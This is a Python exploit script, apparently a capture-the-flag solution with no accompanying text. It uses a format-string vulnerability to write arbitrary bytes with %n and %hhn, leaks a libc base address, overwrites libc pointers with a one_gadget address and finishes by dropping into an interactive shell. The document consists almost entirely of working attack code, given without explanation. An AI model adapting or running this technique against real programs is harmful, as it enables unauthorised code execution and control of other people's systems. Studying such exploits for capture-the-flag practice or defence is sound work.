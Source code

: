 ```python=
def write_byte(addr,val):
        r.send("\x00\x02\x30\x00%{}c%157$n\x00".format(addr-0xd))
        val -= 0xd
        if val <= 0:
                val+=0x100
        r.recvrepeat(.1)
        r.send("\x00\x02\x30\x00%{}c%158$hhn\x00".format(val))
        r.recvrepeat(.1)


write_byte(0x604001,0x1)
write(0x604030,dest-0x50)
write(0x604038,dest)

data = [0]*0x30
data[0] = 1
data[0x29] = 0x604000-2
data[0x28] = 0x16

r.send("\x00\x04\x00\x00".ljust(0x50,'\x00')+flat(data))
r.recvn(0x12)
libc = u64(r.recvn(8))-0x3c5620
print hex(libc)
one_gadget = libc+0x45390

write(0x604c00,one_gadget&0xffffff)
write(0x604c03,one_gadget>>24)
write(0x604bc8,0x6873)

value = 0x10
fmt = "%{}c%66$n".format(value-0xd)
fmt = fmt.ljust(15,"0")
addr = libc+0x3c56f8+3
payload = "\x00\x02\x30\x00" + fmt + p64(addr)
r.send(payload)
r.recvrepeat(.1)
value = 0x604c00-0x38
fmt = "%{}c%66$n".format(value-0xd)
fmt = fmt.ljust(15,"0")
addr = libc+0x3c56f8
payload = "\x00\x02\x30\x00" + fmt + p64(addr)
r.send(payload)
r.recvrepeat(.1)

value = 0x6873
fmt = "%{}c%66$n".format(value-0xd)
fmt = fmt.ljust(15,"0")
addr = libc+0x3c5620
payload = "\x00\x02\x30\x00" + fmt + p64(addr)
r.send(payload)
r.recvrepeat(.1)
r.interactive() # wait 60 second to get shell

```
